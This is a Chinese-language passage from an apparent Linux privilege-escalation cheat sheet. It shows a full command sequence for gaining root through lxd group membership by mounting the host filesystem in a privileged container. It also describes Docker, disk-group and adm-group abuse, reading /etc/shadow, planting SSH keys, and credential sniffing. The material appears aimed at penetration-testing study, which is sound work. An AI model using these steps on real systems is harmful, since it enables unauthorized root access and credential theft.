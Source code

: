 ### 11. 特权组

#### 1. LXC/LXD

> LXD 类似于 Docker,是 Ubuntu 的容器管理器，安转后，琐碎又的用户都会添加到 LXD 组，该组的成员可以通过创建 LXD 容器提升权限，使其具有特权
>
> LXD 初始化过程 --> [参考文章](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04)

```shell
devops@NIX02:~$ id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)

# 获取一个 Alpine.zip 解压缩

# 初始化
devops@NIX02:~$ lxd init
# 导入本地镜像
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
# 启动一个容器
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true
# 挂载主机文件系统
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
# 在容器实例中生成一个 shell 就可以访问 /root
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh
~ # id
uid=0(root) gid=0(root)
```

#### 2. Docker

将用户置于 docker 组中本质上等同于无需密码即可对文件系统进行 root 级别访问。 docker 组的成员可以生成新的 docker 容器。 一个示例是运行命令 docker run -v /root:/mnt -it ubuntu。 此命令创建一个新的 Docker 实例，其中主机文件系统上的 /root 目录作为卷安装。 一旦容器启动，我们就可以浏览到挂载的目录并为 root 用户检索或添加 SSH 密钥。 这可以用于其他目录，例如 /etc，可用于检索 /etc/shadow 文件的内容以进行离线密码破解或添加特权用户。

#### 3. Disk

磁盘组中的用户可以完全访问 /dev 中包含的任何设备，例如 /dev/sda1，它通常是操作系统使用的主要设备。 拥有这些权限的攻击者可以使用 debugfs 以根级权限访问整个文件系统。 与 Docker 组示例一样，这可用于检索 SSH 密钥、凭据或添加用户。

#### 4.ADM

adm 组的成员能够读取存储在 /var/log 中的所有日志。 这不会直接授予 root 访问权限，但可以用来收集存储在日志文件中的敏感数据或枚举用户操作和运行的 cron 作业。

### 12.杂项技术

#### 1. 被动流量捕获

我们可以使用 tcpdump 来捕获网络流量，包括在某些情况下以明文形式传递的凭据，存在多种工具：[net-creds](https://github.com/DanMcInerney/net-creds)和[PCredz](https://github.com/lgandx/PCredz) 可以用于检查线路上传递的数据，

#### 2.弱 NFS 权限
